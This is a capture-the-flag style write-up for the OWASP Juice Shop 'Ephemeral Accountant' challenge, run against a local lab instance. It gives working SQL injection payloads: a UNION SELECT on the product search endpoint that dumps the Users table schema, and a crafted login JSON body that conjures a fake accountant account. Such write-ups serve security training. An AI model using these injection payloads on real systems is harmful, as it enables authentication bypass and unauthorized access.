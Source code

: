 # Ephemeral Accountant

![image](../../Assets/8-1.png)

## Clue provided

1. Try to create the needed user "out of thin air".
2. The user literally needs to be ephemeral as in "lasting for only a short time".
3. Registering normally with the user’s email address will then obviously not solve this challenge. The Juice Shop will not even let you register as acc0unt4nt@juice-sh.op, as this would make the challenge unsolvable for you.
4. Getting the user into the database some other way will also fail to solve this challenge. In case you somehow managed to do so, you need to restart the Juice Shop application in order to wipe the database and make the user disappear again.

## Solution

### Identifying vulnerability

We can find column names by using the following payload:

```
http://127.0.0.1:3000/rest/products/search?q=%27))%20UNION%20SELECT%201,sql,3,4,5,6,7,8,9%20FROM%20sqlite_master%20WHERE%20type=%27table%27%20AND%20name=%27Users%27---
```

![image](../../Assets/8-2.png)

### Exploiting the vulnerability

We can create a temporary user by intercepting login request and modifying the json body to the following:

```json
{"email":"' UNION SELECT * FROM (SELECT 20 AS `id`, 'acc0unt4nt@juice-sh.op' AS `username`, 'acc0unt4nt@juice-sh.op' AS `email`, 'test' AS `password`, 'accounting' AS `role`, '123' AS `deluxeToken`, '1.2.3.4' AS `lastLoginIp`, '/assets/public/images/uploads/default.svg' AS `profileImage`, '' AS `test123`, 1 AS `isActive`, 12983283 AS `createdAt`, 121211 AS `updatedAt`, NULL AS `deletedAt`) AS tmp WHERE '1'='1';--","password":"test"}
```

![image](../../Assets/8-3.png)

### Result

![image](../../Assets/8-4.png)